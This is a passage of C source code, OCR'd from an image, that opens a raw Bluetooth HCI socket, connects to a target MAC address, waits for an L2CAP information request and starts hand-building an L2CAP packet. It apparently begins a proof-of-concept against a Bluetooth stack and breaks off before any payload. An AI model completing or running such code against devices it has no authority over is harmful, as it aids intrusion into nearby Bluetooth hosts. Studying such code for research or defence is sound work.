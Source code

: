 ```c

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  int hci_socket = socket(AF_BLUETOOTH, SOCK_RAW, HCI_CHANNEL_USER);

  struct sockaddr_hci addr;
  memset(&addr, 0, sizeof(addr));
  addr.hci_family = AF_BLUETOOTH;
  addr.hci_dev = 0;
  addr.hci_channel = HCI_CHANNEL_USER;
  bind(hci_socket, (struct sockaddr *) &addr, sizeof(addr));

  create_conn_cp params;
  bacpy(&params.bdaddr, &dst_addr);
  params.pkt_type = 0xcc18;
  params.pscan_rep_mode = 2;
  params.pscan_mode = 0;
  params.clock_offset = 0;
  params.role_switch = 1;

  hci_send_cmd_data(hci_socket, OGF_LINK_CTL, OCF_CREATE_CONN, &params, sizeof(params));

  // TODO: fetch handle
  while (1) {
    uint8_t buf[256] = {0};
    if (read(hci_socket, buf, sizeof(buf)) < 0) {
      perror("[-] read");
      exit(1);
    }
    if (buf[0] == HCI_EVENT_PKT) {
      break;
    }
  }

  uint16_t hci_handle = 0x100;

  while (1) {
    uint8_t buf[256] = {0};
    if (read(hci_socket, buf, sizeof(buf)) < 0) {
      perror("[-] read");
      exit(1);
    }
    if (buf[0] == HCI_ACLDATA_PKT) {
      l2cap_cmd_hdr *l2_cmd_hdr = (l2cap_cmd_hdr *)&buf[9];
      if (l2_cmd_hdr->code == L2CAP_INFO_REQ) {
        break;
      }
    }
  }

  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_info_req info_req;
  } packet5 = {0};
  packet5.hdr.len = htobs(sizeof(packet5) - L2CAP_HDR_SIZE);
```